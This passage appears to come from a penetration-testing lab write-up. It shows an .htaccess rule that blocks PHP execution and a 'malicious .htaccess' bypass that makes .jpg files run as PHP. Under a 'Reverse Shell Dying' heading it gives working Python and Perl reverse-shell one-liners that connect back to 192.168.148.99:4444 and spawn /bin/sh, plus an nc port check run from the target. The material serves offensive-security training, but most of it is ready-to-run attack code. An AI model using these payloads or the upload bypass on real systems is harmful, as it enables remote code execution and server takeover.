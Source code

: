 **Common .htaccess Block:**
```apache
<FilesMatch "\.ph(p[3457]?|t|tml)$">
    SetHandler None
</FilesMatch>
```

**Bypass Solution - Upload New .htaccess:**
```apache
# Create malicious .htaccess
AddType application/x-httpd-php .jpg
```

### Issue: Reverse Shell Dying

**Testing Different Payloads:**

**Python Reverse Shell:**
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.148.99",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

**Perl Reverse Shell:**
```bash
perl -e 'use Socket;$i="192.168.148.99";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Testing Port Availability:**
```bash
# From target
user1@debian:~$ nc -zv 192.168.148.99 4444
192.168.148.99: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.148.99] 4444 (?) open
```

